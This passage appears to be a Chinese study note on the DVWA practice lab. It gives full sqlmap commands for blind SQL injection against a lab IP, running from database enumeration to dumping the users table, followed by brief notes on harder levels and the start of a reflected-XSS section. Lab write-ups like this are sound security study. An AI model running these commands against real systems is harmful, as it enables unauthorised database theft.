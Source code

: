 示例命令
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" --current-db
```
注意--cookie的值需要双引号框住[[sql注入#^sqlmap|sqlmap教程]]
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315122048.png)
成功爆库名
继续爆库名
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" -D dvwa --tables
```
- `-D`: 指定库名
- 爆表名
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315122434.png)
比刚才快很多
```bash
sqlmap -u "http://192.168.254.128/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie "PHPSESSID=vu5afsp2gm4hnrcib72jbhf2v1; security=low" -D dvwa -T users --dump --batch
```
- --batch:不再询问确认
- --dump：爆数据
- -D dvwa -T users：指定已知数据
还是比较快的
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315123803.png)
成功

---
### Medium
这关只是将get请求变为了POST请求
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250320213948.png)

用类似于非盲注的方式进行攻击即可

---
### Hight
本关和sql注入的此难度相似，还是在另一个页面查看注入的回显

---


## XSS(Reflected)
### Low
反射型xss

XSS漏洞的本质在于弹到网页的用户输入的内容，如果没有过滤用javascript闭合就会造成脚本执行，会造成用户信息泄露等危害
验证是否有XSS的实例
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250315124529.png)
